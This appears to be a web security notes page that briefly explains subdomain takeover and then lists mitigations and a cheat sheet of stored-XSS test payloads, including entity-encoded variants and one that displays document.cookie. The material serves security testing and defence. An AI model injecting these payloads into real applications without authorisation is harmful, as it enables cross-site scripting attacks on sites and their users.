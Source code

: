 > Suppose you control the domain example.com. You want to add a blog at blog.example.com, and you decide to use a hosting provider who maintains a blogging platform. The process you go through might look like this:
1.You register the name "blog.example.com" with a domain registrar.
2.You set up DNS records to direct browsers that want to access blog.example.com so that they go to the virtual host.
3.You create a virtual host at the hosting provider.

I like the analogy they give:

> A subdomain is like an electrical outlet. If you remove your appliance from the outlet (or haven’t plugged one in yet), someone can plug in a different one. You must cut power at the breaker or fuse box (DNS) to prevent the outlet from being used by someone else.

### XSS Payloads - Stored XSS

Trying to inject malicious tags into a database using different payloads:

#### Mitigation

1. A Web Application Firewall could screen for the latest OWASP XSS Payloads.

2. Application libraries that would strip out harmful tags.  For example, with Ruby on Rails, you could use the [SanitizeHelper](https://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html) Module:

>The SanitizeHelper module provides a set of methods for scrubbing text of undesired HTML elements.

3. The page at risk of an XSS payload may not be __Internet facing__.

4. The page at risk may require additional privileges to access.

#### Simple XSS Payloads

```html
YYY<script>alert('Hello');</script>ZZZ 
"><script>alert('Hello')</script> 
<object data=javascript:alert(3)>
<svg><animate onbegin=alert() attributeName=x></svg>
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<svg/onload=alert(1)><svg>
YYYYY<marquee onstart=alert(1)>ZZZZZ
```

### Use encoded colon XSS Payloads

```html
//<form/action=javascript&#x3A;alert&lpar;document&period;cookie&rpar;><input/type='submit'>//
</font>/<svg><style>{src&#x3A;'<style/onload=this.onload=confirm(1)>'</font>/</style>
YYYYY<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ZZZZZ
</font>/<svg><style>{src&#x3A;'<style/onload=this.onload=confirm(1)>'</font>/</style>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```
